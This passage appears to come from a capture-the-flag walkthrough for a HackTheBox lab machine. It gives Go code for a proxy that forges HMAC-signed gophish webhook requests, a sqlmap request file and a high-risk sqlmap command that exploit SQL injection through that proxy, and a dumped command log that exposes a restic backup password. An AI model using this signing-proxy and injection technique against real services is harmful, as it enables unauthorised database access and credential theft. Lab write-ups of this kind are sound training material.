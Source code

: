 ```
    if email == "" {
        http.Error(w, `{"error": "Missing 'q' query parameter for email"}`, http.StatusBadRequest)
        return
    }

    payload := Payload{
        CampaignID: 1,
        Email:      email,
        Message:    "Clicked Link",
    }

    signature := calculateHMAC(payload)

    jsonBytes, err := json.Marshal(payload)
    if err != nil {
        http.Error(w, `{"error": "Failed to encode payload"}`, http.StatusInternalServerError)
        return
    }

    req, err := http.NewRequest("POST", webhookURL, bytes.NewBuffer(jsonBytes))
    if err != nil {
        http.Error(w, `{"error": "Failed to create request"}`, http.StatusInternalServerError)
        return
    }

    req.Header.Set("Content-Type", "application/json")
    req.Header.Set("x-gophish-signature", "hmac="+signature)

    client := &http.Client{}
    resp, err := client.Do(req)
    if err != nil {
        http.Error(w, fmt.Sprintf(`{"error": "%s"}`, err.Error()), http.StatusInternalServerError)
        return
    }
    defer resp.Body.Close()

    io.Copy(w, resp.Body)
}

func main() {
    http.HandleFunc("/", handler)
    fmt.Println("Listening on http://localhost:12345")
    log.Fatal(http.ListenAndServe(":12345", nil))
}
```

Then we can run the sqlmap to check the sql-injection here.
```
sqlmap.req
POST /webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d HTTP/1.1
Host: 28efa8f7df.whiterabbit.htb
Content-Type: application/json
User-Agent: sqlmap
Accept: */*
{"campaign_id":1,"email":"*","message":"Clicked Link"}

Is important to leave the request file without the x-gophish-signature header because the proxy will be adding that automatically

sqlmap -r sqlmap.req --proxy=http://127.0.0.1:8000 --batch --level=5 --risk=3 --threads=5
```
Then you can get dump of database.
We can get something interesting from table `command_log`
`uname -a、restic init、echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw > .restic_passwd`